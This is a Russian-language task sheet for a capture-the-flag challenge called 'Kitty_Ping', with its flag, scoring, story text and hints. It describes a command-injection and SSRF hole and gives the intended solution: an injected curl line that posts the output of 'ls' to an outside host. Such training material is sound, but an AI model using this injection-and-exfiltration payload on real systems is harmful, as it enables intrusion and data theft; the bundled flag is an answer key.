 # Kitty_Ping

## Секция
- PWN

## Разбалловка
150

## Флаг
kaiCTF{d20011b04785051a341401a1fbaf93b4}

## Смысл задания
Участник получает точку входа ввида


[link](http://10.116.1.151:10060)


Суть в том, что сервер уязвим к 2м видам атак - RCE, SSRF.
Участник имеет возможность исполнять любой код, однако есть фильтр, какие команды можно выполнять. Результат выполнения команд можно лишь получить, если иметь какой-либо узел, и указать его в ввиде цели.


<code bash> localhost & curl 192.168.93.226:10000 -d "$(ls)"</bash>

## Описание задания
Убежища имеют свою линию связи! Мы нашли терминал бывшего Смотрителя, которого съели яогаи. Хмм, похоже он что-то сюда вводил. Единственное, что мы знаем, что он каким-то образом мог узнавать то, что другие не собирались сообщать... 


## Подсказки
- https://stackoverflow.com/questions/27461936/system-vs-execve
- https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/
- https://xakep.ru/tag/rce/

